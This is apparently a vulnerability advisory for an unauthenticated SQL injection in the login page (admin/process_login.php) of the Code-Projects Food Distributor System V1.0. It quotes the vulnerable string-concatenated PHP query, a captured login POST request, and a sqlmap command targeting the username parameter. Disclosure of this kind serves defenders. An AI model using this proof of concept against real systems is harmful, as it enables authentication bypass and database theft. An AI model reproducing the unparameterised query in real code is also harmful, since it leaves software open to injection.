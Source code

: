 Unauthenticated SQL Injection on username parameter in process_login.php of Code-Projects Food Distributor System 

```
/admin/process_login.php
```

Vendor Homepage:

```
https://code-projects.org/food-distributor-site-in-php-with-source-code/
```

Version: 

```
V1.0
```

Tested on: 

```
PHP
```

Affected Page:

```
/admin/process_login.php
```

The username parameter in the process_login.php file of the Code-Projects Food Distributor System is vulnerable to SQL Injection. This is due to its direct inclusion in a SQL query without input sanitization or the use of parameterized statements, allowing attackers to manipulate the query logic and potentially bypass authentication.

```
	//Create query
	$qry="SELECT * FROM users WHERE username='$username' AND password='$password'";
	$result=mysql_query($qry,$conn);
```

Proof of vulnerability:

Request:

```
POST /fooddis/admin/process_login.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 45
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/fooddis/admin/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=71754171b38aa8bd82953da93affe787
Connection: keep-alive

username=admin&password=admin&Sign+In=Sign+In
```

payload

```
sqlmap -r 1.txt --random-agent --current-user --no-cast --flush-session --threads 10 --batch -p "username"
```

<img width="1073" alt="image" src="https://github.com/user-attachments/assets/85669a15-fd1f-4662-8957-360c6b53a2ae" />

